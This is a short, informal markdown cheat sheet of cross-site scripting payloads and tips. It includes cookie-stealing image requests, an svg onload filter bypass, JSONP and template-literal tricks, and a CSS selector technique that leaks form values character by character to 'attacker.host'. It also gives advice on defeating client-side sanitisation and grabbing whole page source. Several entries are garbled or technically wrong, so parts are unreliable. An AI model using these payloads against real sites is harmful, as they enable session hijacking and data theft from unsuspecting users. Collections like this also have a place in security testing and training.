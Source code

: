 # XSS Payloads

1. `<script>alert(1)</script>`
2. `document.replace("attacker")` for if outbound is blocked
3. `XMLHTTP request`
4. `fetch` or `$.get` (fetch is built in)
5. `document.write('<img src="'+attack+'">"')`
6. `document.write('<img src="attacker" onerror="mallicious">')`
7. `<script>new Image().src = "fsfsfsfsfsfsd?"+document.cookie`
    - note that '//' is the default protocol i.e 'http://'
8. `<svg onload=''>`
    - note thst if spaces are blocked yu can do `<svg\onload="lol">`
9. jsonp `http://news.com/wethertype=jsonp&method=somefunction` runs function
    - use comma expressions to run whatever you want
10. templete literals :(
    - Array.join`${document.cookie}`
11. sometimes grab the enite page source rather then the cookie.
12. onload and onfocus to trigger
13. not xss but we can use css to send requests.

```css
#username[value^="a"] {
  background: url("https://attacker.host/?letter=a");
}
#username[value^="b"] {
  background: url("https://attacker.host/?letter=b");
}

```

once you get the first letter you repeat
```css
#username[value^="aa"] {
  background: url("https://attacker.host/?letter=aa");
}
#username[value^="ab"] {
  background: url("https://attacker.host/?letter=ab");
}

```

you need to write a script to slowly guess the string each time.

14. polyglots
15. angular: http://blog.portswigger.net/2016/01/xss-without-html-client-side-template.html


## tips

1. Make sure you arn't getting hit by client side sanitation which you can easily fuck over
2. grabbing information other then cookies is useful such as user agents or the entire html page.
3.
